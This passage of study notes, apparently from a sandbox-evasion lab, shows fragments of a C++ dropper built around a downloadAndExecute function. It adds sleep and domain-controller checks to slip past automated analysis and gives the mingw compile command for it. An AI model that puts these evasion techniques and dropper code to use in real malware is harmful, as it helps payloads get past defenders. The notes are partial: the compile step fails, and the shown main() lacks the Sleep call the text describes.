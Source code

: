```cpp
    downloadAndExecute();
    return 0;
}
```

**Compiling this c++ code with Windows dependencies**:

![](/assets/img/Pasted image 20230127150031.png)


`$ x86_64-w64-mingw32-g++ dropper.c -o dropper.exe -lwsock32 -lws2_32 `

	- Error. TBC


-------
# Implementing Various Evasion Techniques

- With this base code acquired, we will take our first step into the world of Sandbox evasion.
- We're going to start with out `sleep` because its the simplest.

### Taking a Nap

- We can take our template code from the previous task and add a `Sleep` statement for **120,000MS** to it (or 120 seconds).
- Generally, you would want to time closer to `5 minutes` to be sure. However, `2 minutes` will suffice for testing purposes.
- We'll now add our `Sleep` statement in the main function:

```cpp
int main() {
    if (isDomainController == TRUE) {
        downloadAndExecute(); // from the Dropper.
    } else {
        cout << "Domain Controller Not Found!";
    }
}
```


**Testing our Code**:

- After this is done, we can compile and upload the code to ANY.RUN(or just use VirtualBox Kali in your case).
- You can read along with the following tests, and see their behaviour on ANY.RUN by following the links:

- **Sleep Bypass** : `https://app.any.run/tasks/0799e9b3-dddc-4838-ba2d-c95fc0a7e63b`

![](/assets/img/Pasted image 20230128151427.png)

	- We see that there's no activity occuring in our Sleep.exe run.

<u>Source Code</u>:

```cpp
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>
#include <urlmon.h>
#include <cstdio>
#pragma comment(lib, "urlmon.lib")

using namespace std;

int downloadAndExecute() {
```